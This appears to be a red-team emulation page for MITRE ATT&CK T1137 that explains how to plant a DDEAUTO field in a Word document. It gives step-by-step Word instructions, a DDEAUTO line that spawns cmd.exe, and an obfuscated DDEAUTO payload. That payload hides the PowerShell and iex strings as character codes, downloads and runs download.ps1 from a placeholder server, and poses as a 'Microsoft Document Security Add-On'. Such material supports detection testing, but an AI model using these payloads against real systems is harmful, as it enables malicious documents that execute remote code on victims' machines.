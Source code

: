 # Office Application Startup

## MITRE ATT&CK Technique:
[T1137](https://attack.mitre.org/wiki/Technique/T1137)


## DDEAUTO

1. Open Word
2. Insert tab -> Quick Parts -> Field
3. Choose = (Formula) and click ok.
4. Once the field is inserted, you should now see "!Unexpected End of Formula"
5. Right-click the Field, choose "Toggle Field Codes"
6. Paste in the code from Unicorn or SensePost
7. Save the Word document.

# [SensePost DDEAUTO](https://sensepost.com/blog/2017/macro-less-code-exec-in-msword/)

    DDEAUTO c:\\windows\\system32\\cmd.exe "/k calc.exe"

# [TrustedSec - Unicorn](https://github.com/trustedsec/unicorn)

## Generate the payload and download.ps1 following the Unicorn instructions, or to make one "just work", follow the steps below.

    DDEAUTO "C:\\Programs\\Microsoft\\Office\\MSWord\\..\\..\\..\\..\\windows\\system32\\{ QUOTE 87 105 110 100 111 119 115 80 111 119 101 114 83 104 101 108 108 }\\v1.0\\{ QUOTE 112 111 119 101 114 115 104 101 108 108 46 101 120 101 } -w 1 -nop { QUOTE 105 101 120 }(New-Object System.Net.WebClient).DownloadString('http://<server>/download.ps1'); # " "Microsoft Document Security Add-On"

## Word VBA Macro

[Dragon's Tail](https://github.com/redcanaryco/atomic-red-team/tree/master/ARTifacts/Adversary/Dragons_Tail)

